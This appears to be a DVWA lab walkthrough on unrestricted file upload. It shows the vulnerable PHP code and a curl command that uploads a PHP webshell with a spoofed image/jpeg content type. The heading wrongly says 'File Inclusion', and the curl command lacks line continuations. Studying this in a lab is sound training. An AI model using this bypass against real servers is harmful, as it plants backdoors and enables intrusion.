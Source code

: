 # File Inclusion

## Easy

### Exploit
This one is pretty basic. Just choose any one of the webshells /usr/share/webshell/php/, upload it, and browse to it in /dvwa/hackackble/uploads/.

### Code Analysis
This is a basic file upload <form>.

```html
 <form enctype="multipart/form-data" action="#" method="POST" />
	 <input type="hidden" name="MAX_FILE_SIZE" value="100000" />
	 Choose an image to upload:
	 <br />
	 <input name="uploaded" type="file" /><br />
	 <br />
	 <input type="submit" name="Upload" value="Upload" />
 </form>
```

Note that in the below PHP code, the `Upload` parameter is checked in the outermost conditional and thus must be present in the POST request; this is important to note if we wanted to send this request outside of the browser with a different HTTP client (e.g. curl). 

```php
if (isset($_POST['Upload'])) { 

		$target_path = DVWA_WEB_PAGE_TO_ROOT."hackable/uploads/"; 
		$target_path = $target_path . basename( $_FILES['uploaded']['name']); 

		if(!move_uploaded_file($_FILES['uploaded']['tmp_name'], $target_path)) { 

			echo '<pre>'; 
			echo 'Your image was not uploaded.'; 
			echo '</pre>'; 

		  } else { 

			echo '<pre>'; 
			echo $target_path . ' succesfully uploaded!'; 
			echo '</pre>'; 

		} 

	} 
```

## Medium

## Code Analysis
If we try to upload a PHP webshell as in the previous example, we receive an error message telling us that our file was not uploaded. If we examine the request using the browser network tab or Burp Proxy we that in addition to the file contents, the request body includes the content type which, in this case, is application/php. It's reasonable to assume that perhaps the server is expecting a content type of image/jpeg, and perhaps is even - foolishly - using this value to perform validation.

Examining the below code confirms this; the code is using the browser supplied type to validate the image. This browser can implicitly determine this value based on the file, or it can be set explicitly via the `accept` attribute of an `<input>`. Most importantly, since it is supplied by the client, it can be easily spoofed and thus should not be used for server-side validation. 

```php
 if (isset($_POST['Upload'])) { 

		 $target_path = DVWA_WEB_PAGE_TO_ROOT."hackable/uploads/"; 
		 $target_path = $target_path . basename($_FILES['uploaded']['name']); 
		 $uploaded_name = $_FILES['uploaded']['name']; 
		 $uploaded_type = $_FILES['uploaded']['type']; 
		 $uploaded_size = $_FILES['uploaded']['size']; 

		 if (($uploaded_type == "image/jpeg") && ($uploaded_size < 100000)){ 


			 if(!move_uploaded_file($_FILES['uploaded']['tmp_name'], $target_path)) { 

				 echo '<pre>'; 
				 echo 'Your image was not uploaded.'; 
				 echo '</pre>'; 

			   } else { 

				 echo '<pre>'; 
				 echo $target_path . ' succesfully uploaded!'; 
				 echo '</pre>'; 

				 } 
		 } 
		 else{ 
			 echo '<pre>Your image was not uploaded.</pre>'; 
		 } 
	 } 
```

## Exploit
The solution is to tailor an HTTP request to pass these checks.

```bash
curl --cookie 'security=medium; PHPSESSID=e2ccc471d913ae972ed0c3e5c8663886' \
	 --form MAX_FILE_SIZE=100000
	 --form Upload=Upload
	 --form 'uploaded=@/usr/share/webshells/php/backdoor.php;type=image/jpeg'
     http://192.168.56.6/dvwa/vulnerabilities/upload/
```

The key option is `--form 'uploaded=@/usr/share/webshells/php/backdoor.php;type=image/jpeg'`. Here we specify the webshell, but spoof the type by setting it to `image/jpeg` in order to bypass the `if (($uploaded_type == "image/jpeg")` check. We also include the other form fields as well the session cookie to prove that we're authenticated. Now just browse to the webshell in /dvwa/hackable/uploads/.
